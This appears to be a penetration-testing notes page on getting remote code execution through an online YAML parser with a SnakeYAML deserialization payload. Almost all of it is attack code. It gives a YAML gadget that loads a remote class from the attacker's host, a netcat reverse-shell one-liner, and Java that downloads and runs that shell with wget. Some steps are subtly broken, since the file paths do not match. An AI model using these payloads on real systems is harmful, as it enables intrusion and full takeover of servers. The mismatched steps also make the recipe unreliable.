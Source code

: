 #### Online YAML parser
See https://github.com/artsploit/yaml-payload

![[Pasted image 20220922153442.png]]

```bash - kali
git clone https://github.com/artsploit/yaml-payload
```

![[Python#Server]]

```java
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://$KALI/"]
  ]]
]
```

Should see a call back in you python server.
![[Pasted image 20220922153421.png]]

```bash - kali
echo '#!/bin/bash \nrm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $KALI 443 >/tmp/f' > Shelly.sh
```

Modify lines 8 - 17 of `/src/artsploit/AwesomeScriptEngineFactory.java` with the following to upload and execute reverse shell.
```java
public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() throws Exception {
        try {
            Process p = Runtime.getRuntime().exec("wget $KALI/Shelly.sh -O /tmp/shell");
			p.waitFor();
			p = Runtime.getRuntime().exec("chmod +x /tmp/Shelly.sh");
			p.waitFor();
			p = Runtime.getRuntime().exec("/tmp/Shelly.sh");
			p.waitFor();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
```

```bash - kali
javac src/artsploit/AwesomeScriptEngineFactory.java
```

```bash - kali
jar -cvf yaml-payload.jar -C src/ .
```

[[rlwrap]]

```bash - kali
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://$KALI/yaml-payload.jar"]
  ]]
]
```














